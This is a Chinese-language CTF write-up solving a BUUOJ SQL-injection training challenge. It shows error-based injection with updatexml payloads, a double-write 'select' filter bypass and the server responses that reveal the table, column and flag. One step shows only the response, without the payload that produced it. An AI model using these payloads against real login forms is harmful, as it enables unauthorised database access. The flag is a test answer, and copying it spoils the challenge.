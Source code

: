 # [N1book web入门]SQL注入2

**标签：`报错注入` `sql绕过` `brup` `HeckBar`**

> 链接：[[N1book web入门]SQL注入2](https://buuoj.cn/challenges#[%E7%AC%AC%E4%B8%80%E7%AB%A0%20web%E5%85%A5%E9%97%A8]SQL%E6%B3%A8%E5%85%A5-2)

我把这个题当作报错注入的一道例题

**准备`brup`**

这道题需要用到`brup`去看返回的报错信息，`postman`都看不到，因此需要自行准备下`brup`

**信息收集**

查看源代码，发现

```
<!-- 如果觉得太难了，可以在url后加入?tips=1 开启mysql错误提示,使用burp发包就可以看到啦-->
```

ok，思路来了，就是对着提示所说的url发个包，看看报错信息。但是发什么包（GET?POST?），带什么参数都还不知道，我们可以先随便填一个用户名和密码试一下，看一下数据包

去控制台看一下数据包，发现执行登陆后前端发送了一个`login.php`的数据包，于是可以发现：

* `method`: `POST`
* `params`: `name=1&pass=1`

接下来就可以发包了

**使用`brup`发包**

首先需要开启代理 `127.0.0.1:8080`

开代理后每一次请求都会被`brup`所拦截，使用感受就像是在写`C++`程序时的单步调试一样

这里我们使用`HeckBar`对`url`发送第一个请求

> `HeckBar`是我看一个视频中介绍的一个`Chrome`插件，可以帮助你进行sql注入

![](E:../../../statics\img\CTF\13.png)

然后去`brup`中，发现他已经拦截到了这次访问

<img src="E:../../../statics\img\CTF\14.png" style="zoom:67%;" />

右键，选择 `Send to Repeater`，准备开始发送数据包

<img src="E:../../../statics\img\CTF\15.png" style="zoom:67%;" />

这里发送的`name=test'`，多了一个右引号，于是有了SQL语法错误，错误信息也被捕捉到了

继续尝试**报错注入**

直接来查表

```
name=test' and updatexml(1, concat(0x7e, (select group_concat(table_name) from information_schema.tables where table_schema=database())),1) # &pass=xxxx
```

发过去后返回：

```
string(217) "You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near 'from information_schema.tables where table_schema=database())),1) # '' at line 1"
{"error":1,"msg":"\u8d26\u53f7\u4e0d\u5b58\u5728"}
```

它提示我们有个SQL语法错误，但实际上我们很自信输入的SQL语句没有错误，而且错误点出现在from前，那我们有理由猜测，开发者过滤了`select`，于是我们就可以使用**双写绕过**

> 所谓双写绕过，举个例子，在`select`中间再写上一个`select`，中间的`select`是连续的，会被过滤，过滤后两端就会被拼接起来，还是`select`，好阴险！
>
> sel~~select~~ect	-->	`select`

于是可以修改：

```
string(33) "XPATH syntax error: '~fl4g,users'"
{"error":1,"msg":"\u8d26\u53f7\u4e0d\u5b58\u5728"}
```

然后就找到了，继续挖

```
name=test' and updatexml(1, concat(0x7e, (selselectect group_concat(column_name) from information_schema.columns where table_name='fl4g')),1) # &pass=xxxx
```

回显

```
string(27) "XPATH syntax error: '~flag'"
{"error":1,"msg":"\u8d26\u53f7\u4e0d\u5b58\u5728"}
```

接近胜利

```
name=test' and updatexml(1, concat(0x7e, (selselectect flag from fl4g)),1) # &pass=xxxx
```

回显

```
string(49) "XPATH syntax error: '~n1book{login_sqli_is_nice}'"
{"error":1,"msg":"\u8d26\u53f7\u4e0d\u5b58\u5728"}
```

大功告成！

> `双写绕过`典型题目：
>
> * [BabySQL](https://buuoj.cn/challenges#[%E6%9E%81%E5%AE%A2%E5%A4%A7%E6%8C%91%E6%88%98%202019]BabySQL)